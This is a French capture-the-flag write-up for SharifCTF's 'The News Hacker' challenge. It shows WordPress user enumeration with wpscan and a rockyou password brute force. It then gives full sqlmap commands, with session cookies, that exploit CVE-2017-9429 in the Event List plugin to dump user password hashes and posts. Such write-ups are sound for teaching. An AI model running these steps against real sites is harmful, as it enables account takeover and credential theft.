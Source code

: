 **Web - The News Hacker  - 150pts**

Enoncé :
```
Only admin can see the flag :)
ctf.sharif.edu:8082
Hint: Weak password!
```

**Résolution :**

Le site est un wordpress :

![Alt](img/wordpress.png "Accueil")

On commence par le scanner pour identifier les différentes versions des plugins et lister les utilisateurs.

```BASH
wpscan --url http://ctf.sharif.edu:8082 --enumerate u
```

**Résultat :**
```
Deux utilisateurs sont présent sur le système :
   +----+-----------+-----------+
    | Id | Login     | Name      |
    +----+-----------+-----------+
    | 1  | admin     | admin     |
    | 2  | organizer | organizer |
    +----+-----------+-----------+

 ```
Un plugin est vulnérable à une injection SQL authentifié :

```
[!] Title: Event List <= 0.7.8 - Authenticated SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8846
    Reference: https://dtsa.eu/cve-2017-9429-event-list-version-v-0-7-8-blind-based-sql-injection-sqli/
    Reference: https://plugins.trac.wordpress.org/changeset/1676971/event-list
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9429
[i] Fixed in: 0.7.9

```


On bruteforce l'accès à l'administration du wordpress via la page **wp-login.php** avec burp et le dictionnaire rockyou


![Alt](img/burp.png "Bruteforce")


On trouve le couple d'identifiant :  organizer / password

On se connecte grâce aux identitifants 

![Alt](img/admin.png "Admin page")

Nous avons maintenant un cookie de session valide pour exploiter l'injection sql en mode authentifié : [CVE-2017-9429](https://dtsa.eu/cve-2017-9429-event-list-version-v-0-7-8-blind-based-sql-injection-sqli/)

Avec SQLMAP on injecte sur le paramètre **id**:
```BASH
sqlmap -u "http://ctf.sharif.edu:8082/wp-admin/admin.php?page=el_admin_main&action=edit&id=1  AND SLEEP(2)" --cookie="wordpress_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cc2da9849c840a893d0cf33bf38bd75a9a7af23367151b471e912be06963bb21b; csrftoken=gMHcyH05di9Nbae4Nob9iz8jXKN7twztLs2V0Zl55nC4mDQJEoEBxFf1ClV1cX5O; sessionid=h7xiiydxhmcqd3u9vij4p1c75fwaiis1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cabf11d732008c12922d0e7101ddcf906203f47813221521c84eb51bdf1180e64; wp-settings-2=libraryContent%3Dupload%26mfold%3Do%26editor%3Dtinymce%26uploader%3D1; wp-settings-time-2=1517567162" -p id
```

L'injection fonctionne, il ne reste plus qu'à afficher le contenu de la base de données désirée.

La première idée à été de dumper le mot de passe du compte : admin

```BASH
sqlmap -u "http://ctf.sharif.edu:8082/wp-admin/admin.php?page=el_admin_main&action=edit&id=1  AND SLEEP(2)" --cookie="wordpress_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cc2da9849c840a893d0cf33bf38bd75a9a7af23367151b471e912be06963bb21b; csrftoken=gMHcyH05di9Nbae4Nob9iz8jXKN7twztLs2V0Zl55nC4mDQJEoEBxFf1ClV1cX5O; sessionid=h7xiiydxhmcqd3u9vij4p1c75fwaiis1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_0a035233da76ab47b383406952116587=organizer%7C1517739757%7CBvi9HeOuVUVjGtcTlFxeK0w6ikHvbjQ63cH4No4fKvt%7Cabf11d732008c12922d0e7101ddcf906203f47813221521c84eb51bdf1180e64; wp-settings-2=libraryContent%3Dupload%26mfold%3Do%26editor%3Dtinymce%26uploader%3D1; wp-settings-time-2=1517567162" -p id -D wp_blog -T wp_users --dump


Database: wp_blog
Table: wp_users
[2 entries]
+----+----------+------------------------------------+------------+-------------------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID | user_url | user_pass                          | user_login | user_email              | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+----+----------+------------------------------------+------------+-------------------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| 1  | <blank>  | $P$BlswVddCYusVLzt8kbJ2IgtYAzjfFV. | admin      | info@besthackers.com    | 0           | admin        | admin         | 2018-01-01 07:38:36 | <blank>                                       |
| 2  | <blank>  | $P$ByyRxRMg.AIWvtbM1Jf3A0Obt/oEJy1 | organizer  | organizer@sharifctf.com | 0           | organizer    | organizer     | 2018-01-08 04:16:36 | 1515384996:$P$B8XHeMJAc23PiQ.TKcINv40EoS4jUV1 |
+----+----------+------------------------------------+------------+-------------------------+-------------+--------------+---------------+--------------------

```
Après une heure de bruteforce offline avec hashcat le mot de passe n'a pas été trouvé.

On dump alors tous les posts du wordpress en espérant en trouver un de caché.

```BASH
sqlmap -u "http://ctf.sharif.edu:8082/wp-admin/admin.php?page=el_admin_main&action=edit&id=1  AND SLEEP(2)" --cookie="wordpress_0a035233da76ab47b383406952116587=organizer%7C1517745041%7CaFwFCjTZRnFNkPPS2tgadihYPOnZegBYj4uGZLE1d4h%7C3fc24876b5521be0e1075ce103b2f76d4d044237e9f5682d978e7a281e313f34; csrftoken=gMHcyH05di9Nbae4Nob9iz8jXKN7twztLs2V0Zl55nC4mDQJEoEBxFf1ClV1cX5O; sessionid=h7xiiydxhmcqd3u9vij4p1c75fwaiis1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_0a035233da76ab47b383406952116587=organizer%7C1517745041%7CaFwFCjTZRnFNkPPS2tgadihYPOnZegBYj4uGZLE1d4h%7C8d85976e7e3fe45466237298692e0a71ef640c92b24fc99e1f7c6b2c771bc251; wp-settings-2=libraryContent%3Dbrowse%26mfold%3Do%26editor%3Dhtml%26uploader%3D1; wp-settings-time-2=1517572245; XSRF-TOKEN=eyJpdiI6ImpzTE9IT01LWEZhMVdIY3A0NURKTVE9PSIsInZhbHVlIjoiRG1qZVkyTTkxU2VsMlJJNzFFbiswbkVEU2dPZzYzNEZidHIwVkE5QnVQZnJ3XC9pcHpIUnJDOE9ZTCtFMUhJWm52WnBTM2lUdTNqRGlNNXhqSk9IRHVnPT0iLCJtYWMiOiIyM2U0M2I2NGUyYThlODZkMjE5ZGM0MTFjNWM5NzczNmVkOGE4ZjUyNjBiMjg5MWY1ZjNhYTczMzFlOTc3N2IxIn0%3D; laravel_session=eyJpdiI6IlRodmZ3YUc5K2pHSzJkUmtBSWwzMUE9PSIsInZhbHVlIjoibkhXXC9mQ2RRMWFkWkpEc0FYdk5qVHhZVlZZSGpaNFdyWU1RMStwSzdHU0U3RkJua3RMM1l4bHFJbXB3Zzd5NW44UUJ4U3E0YnRMcWlJb0Rzd21oYmlBPT0iLCJtYWMiOiI3ZWVlMGYyYWIyMDgxOWFkYjZjN2Y0YzNhZDAyZTdhNDMzMWM1M2EzMTE1ZjRhN2M0YjM2OWM0ZDU0YzI5MGQ5In0%3" -p id -D wp_blog -T wp_posts --dump



[13:22:35] [INFO] retrieved: "25","0","open","http://10.0.3.189/?p=25","0","open","","1","Flag is SharifCTF{e7134abea7438e937b87608eab0d979c}","","2018-01-08 04:14:21","2018-01-08 04:14:21","","","2018-01-08 10:5...
```



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
